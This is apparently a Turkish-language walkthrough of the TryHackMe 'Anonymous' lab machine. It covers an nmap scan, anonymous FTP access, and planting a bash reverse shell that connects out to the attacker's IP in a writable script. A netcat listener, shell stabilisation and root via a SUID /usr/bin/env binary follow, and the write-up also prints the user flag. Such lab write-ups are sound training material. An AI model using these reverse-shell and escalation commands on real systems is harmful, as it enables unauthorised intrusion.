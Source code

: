 ## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/anonymous">Anonymous</a> makinesinin çözümünü paylaşacağım.

Başlayalım.

## Görev 1

nmap çalıştıralım.

```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV  10.10.20.162
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-12 01:24 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 01:24
Scanning 10.10.20.162 [4 ports]
Completed Ping Scan at 01:24, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:24
Completed Parallel DNS resolution of 1 host. at 01:24, 0.00s elapsed
Initiating SYN Stealth Scan at 01:24
Scanning 10.10.20.162 (10.10.20.162) [1000 ports]
Discovered open port 21/tcp on 10.10.20.162
Discovered open port 445/tcp on 10.10.20.162
Discovered open port 22/tcp on 10.10.20.162
Discovered open port 139/tcp on 10.10.20.162
Completed SYN Stealth Scan at 01:24, 1.91s elapsed (1000 total ports)
Initiating Service scan at 01:24
Scanning 4 services on 10.10.20.162 (10.10.20.162)
Completed Service scan at 01:24, 11.28s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.20.162.
Initiating NSE at 01:24
Completed NSE at 01:24, 0.00s elapsed
Initiating NSE at 01:24
Completed NSE at 01:24, 0.00s elapsed
Nmap scan report for 10.10.20.162 (10.10.20.162)
Host is up (0.10s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.62 seconds
           Raw packets sent: 1005 (44.196KB) | Rcvd: 1002 (40.096KB)
```


Makineyi numaralandırın. Kaç port açık?
> 4

21 numaralı bağlantı noktasında hangi hizmet çalışıyor?
> ftp

139 ve 445 numaralı bağlantı noktalarında hangi hizmet çalışıyor?
> smb

ftp servisine anonymous olarak girmeyi deniyorum.


```
┌──(root㉿r3tr0)-[~]
└─# ftp 10.10.20.162
Connected to 10.10.20.162.
220 NamelessOne's FTP Server!
Name (10.10.20.162:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||8298|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||45177|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1118 Nov 12 06:29 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> get clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||30118|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |****************************************************************|   314        2.62 MiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (3.35 KiB/s)
ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
229 Entering Extended Passive Mode (|||37011|)
150 Opening BINARY mode data connection for removed_files.log (1118 bytes).
100% |****************************************************************|  1118        6.42 MiB/s    00:00 ETA
226 Transfer complete.
1118 bytes received in 00:00 (11.97 KiB/s)
ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
229 Entering Extended Passive Mode (|||48492|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |****************************************************************|    68      205.59 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.72 KiB/s)
ftp> exit
221 Goodbye.
```

İndirdiğim dosyaları inceliyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a1.png?raw=true)

clean.sh dosyasının içerisine reverse shell kodu ekliyorum ve put komutuyla ftp servisine gönderiyorum.

```
sh -i >& /dev/tcp/10.14.61.127/1234 0>&1
```

netcat çalıştırmayı unutmayalım.

```
nc -nvlp 1234
```

Kısa bir süre bekledikten sonra makineye erişim sağlıyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a2.png?raw=true)

Shellimizi stabil hale getirelim:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a3.png?raw=true)

user flag:
>90d6f992585815ff991e68748c414740

Yetkimizi yükseltelim ve root bayrağına ulaşalım.

```
find / -perm -04000 -type f 2>/dev/null komutu ile hangi programların root’a ait olduğuna bakıyorum.
```

```
namelessone@anonymous:~$ find / -perm -04000 -type f 2>/dev/null
find / -perm -04000 -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

Buradaki /usr/bin/env dikkatimi çekiyor ve gtfobins sitesine gidip yetki yükseltip yükseltemeyeceğime bakıyorum.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a4.png?raw=true)



- /usr/bin/env /bin/sh -p komutu ile yetkimizi yükseltelim.